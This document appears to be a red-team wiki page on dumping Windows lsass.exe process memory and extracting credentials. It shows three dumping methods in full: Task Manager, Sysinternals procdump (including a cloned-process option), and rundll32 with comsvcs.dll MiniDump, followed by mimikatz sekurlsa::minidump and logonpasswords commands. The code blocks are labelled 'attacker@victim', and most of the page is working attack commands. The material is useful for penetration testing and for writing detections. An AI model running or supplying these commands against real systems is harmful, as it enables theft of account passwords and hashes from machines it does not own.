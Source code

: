 # Dumping Lsass.exe to Disk Without Mimikatz and Extracting Credentials

## Task Manager

Create a minidump of the lsass.exe using task manager \(must be running as administrator\):

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-55-27.png)

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-56-12.png)

Swtich mimikatz context to the minidump:

{% code-tabs %}
{% code-tabs-item title="attacker@mimikatz" %}
```csharp
sekurlsa::minidump C:\Users\ADMINI~1.OFF\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-54-15.png)

## Procdump

Procdump from sysinternal's could also be used to dump the process:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-11-28.png)

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-13-25.png)

## comsvcs.dll

Executing a native comsvcs.dll DLL found in Windows\system32 with rundll32:

```text
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```

![](../../.gitbook/assets/image%20%28159%29.png)

## References

{% embed url="https://t.co/s2VePo3ICo?amp=1" %}

